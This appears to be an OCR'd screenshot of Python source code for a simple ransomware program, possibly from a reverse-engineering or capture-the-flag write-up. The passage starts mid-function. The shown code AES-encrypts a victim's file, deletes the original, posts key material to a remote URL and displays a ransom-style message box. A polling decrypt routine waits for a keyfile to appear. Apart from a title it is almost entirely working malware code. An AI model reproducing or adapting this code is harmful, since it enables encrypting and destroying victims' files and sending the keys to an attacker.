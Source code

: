 ```python=
    response = requests.post(url=URL, data=msg, headers=Headers)
    del key
    del iv
    ctypes.windll.user32.MessageBoxA(0, 'Your file "EncryptMe1234.txt" has been encrypted. Obtain your "keyfile" to decrypt your file.', 'File(s) Encrypted!!!', 1)


def encrypt():
    global encfile
    global infile
    aes = AES.new(key, AES.MODE_CBC, iv)
    if os.path.exists(infile):
        fin = open(infile, 'r')
        fout = open(encfile, 'w')
        fsz = os.path.getsize(infile)
        fout.write(struct.pack('<H', fsz))
        while True:
            data = fin.read(sz)
            n = len(data)
            if n == 0:
                break
            elif n % bs != 0:
                data += '0' * (bs - n % bs)
            crypt = aes.encrypt(data)
            fout.write(crypt)

        fin.close()
        fout.close()
        os.remove(infile)
        callbk()
    else:
        return


def decrypt():
    global keyfile
    key = ''
    iv = ''
    if not os.path.exists(encfile):
        exit(0)
    while True:
        time.sleep(10)
        if os.path.exists(keyfile):
            keyin = open(keyfile, 'rb')
            key = keyin.read(bs)
            iv = keyin.read(bs)
            if len(key) != 0 and len(iv) != 0:
                aes = AES.new(key, AES.MODE_CBC, iv)
                fin = open(encfile, 'r')
                fsz = struct.unpack('<H', fin.read(struct.calcsize('<H')))[0]
                fout = open(infile, 'w')
                fin.seek(2, 0)
                while True:
                    data = fin.read(sz)
                    n = len(data)
                    if n == 0:
                        break
                    decrypted = aes.decrypt(data)
                    n = len(decrypted)
                    if fsz > n:
                        fout.write(decrypted)
                    else:
                        fout.write(decrypted[:fsz])
```